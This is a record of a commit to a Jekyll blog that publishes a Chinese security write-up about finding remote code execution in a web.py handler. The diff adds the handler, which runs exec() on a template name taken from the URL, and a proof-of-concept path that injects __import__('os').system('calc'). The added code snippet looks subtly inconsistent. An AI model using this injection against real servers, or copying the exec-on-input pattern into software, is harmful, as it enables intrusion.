

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 353 px, cut to the strip 223-900 px from the top of the window. Shown: the whole strip, without its empty margins (187-1084 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Update 2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md

````diff
--- a/_posts/2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md
+++ b/_posts/2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md
@@ -1,6 +1,6 @@
 ---
 title: 某A大厂Web审计实战-从不出货到拿下通用RCE漏洞
-published: false
+published: true
 ---
 
 # [](#header-1)0x00、前言
@@ -55,23 +55,38 @@
 
 逐个查看Handler，感觉写的中规中矩没什么特别能getshell的地方.
 本来差点就想部署分布式去测了，但在临走之前鬼使神差地看了眼加载静态页面如下Handler，没曾想直接出货了
-![avatar](/image/2024-03-23-5.png)
+```py
+r = web.template.render('templates, base='layout')
+
+class pages:
+  def GET(self, name=None):
+    d = web.input()
+    title = "pressuretest"
+    if hasattr(r,name):
+      exec('res = lambda :r.' + name)
+    return res
+```
 首先，笔者对如上代码进行解释:
 name的值是从客户端传回的html模板信息，例如: http://127.0.0.1/index.html 的name值就为index
-r是web.py加载的模板，例如: r.index()该函数返回index页面的html
+r是web.py加载的模板，r.xxx则是各模板的函数地址. 例如: r.index()该函数执行结果返回index页面的html
+在该Handler，工程师返回一个函数的函数值，方便上层规范接口通过调用res.res()()获取html值
 但在此，工程师却使用如下代码来实例化加载html的函数
 ```py
-func = eval('r.'+name)
+exec('res = lambda :r.' + name)
 ```
-明明可以使用getattr等反射中更加安全的办法，工程师却偏偏使用了大名鼎鼎的eval，相信该函数的危害笔者在此不过多强调读者也知.
+明明可以使用getattr等反射中更加安全的办法，工程师使用了exec先将该代码，相信该函数的危害笔者在此不过多强调读者也知.
 
 接下来顺藤摸瓜根据利用链构造Poc，如果不出意外在路径中构造
 ```py
 http://127.0.0.1/index+__import__('os').system('calc').html
 ```
-那name变量的值就会变成
+那exec中的值就会变成
 ```py
-name = "r.index+__import__('os').system('calc')"
+res = lambda :r.index+__import__('os').system('calc')
+```
+到时候，调用res就会变成直接调用
+```py
+r.index+__import__('os').system('calc')()
 ```
 就直接能触发命令执行
 
````
